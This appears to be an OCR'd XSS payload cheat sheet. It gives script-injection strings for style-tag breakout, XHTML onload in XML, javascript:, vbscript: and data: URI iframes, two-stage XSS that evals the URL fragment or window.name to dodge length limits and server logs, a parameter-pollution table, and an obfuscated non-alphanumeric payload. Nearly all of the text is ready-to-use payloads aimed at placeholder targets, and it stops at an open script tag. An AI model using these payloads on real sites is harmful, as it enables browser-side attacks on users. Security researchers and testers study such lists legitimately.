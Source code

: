 HTML is parsed before CSS
<style>
body { background-image:url('http://www.blah.com/</style><script>alert(1)</script>'); }
</style>

XSS in XML documents [doctype = text/xml] (Firefox, Chrome, Safari).
<?xml version="1.0" ?>
<someElement>
	<a xmlns:a='http://www.w3.org/1999/xhtml'><a:body onload='alert(1)'/></a>
</someElement>

URI Schemes
<iframe src="javascript:alert(1)"></iframe>
<iframe src="vbscript:msgbox(1)"></iframe> (IE)
<iframe src="data:text/html,<script>alert(0)</script>"></iframe> (Firefox, Chrome, Safari)
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></iframe> (Firefox, Chrome, Safari)

HTTP Parameter Pollution
http://target.com/something.xxx?a=val1&a=val2
ASP.NET 	a = val1,val2
ASP 		a = val1,val2
JSP 		a = val1
PHP 		a = val2

Two Stage XSS via fragment identifier (bypass length restrictions / avoid server logging)
<script>eval(location.hash.slice(1))</script>
<script>eval(location.hash)</script> (Firefox)

http://target.com/something.jsp?inject=<script>eval(location.hash.slice(1))</script>#alert(1)

Two Stage XSS via name attribute
<iframe src="http://target.com/something.jsp?inject=<script>eval(name)</script>" name="alert(1)"></iframe>

Non-alphanumeric crazyness...
<script>
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.___+")"+"\"")())();
</script>

<script>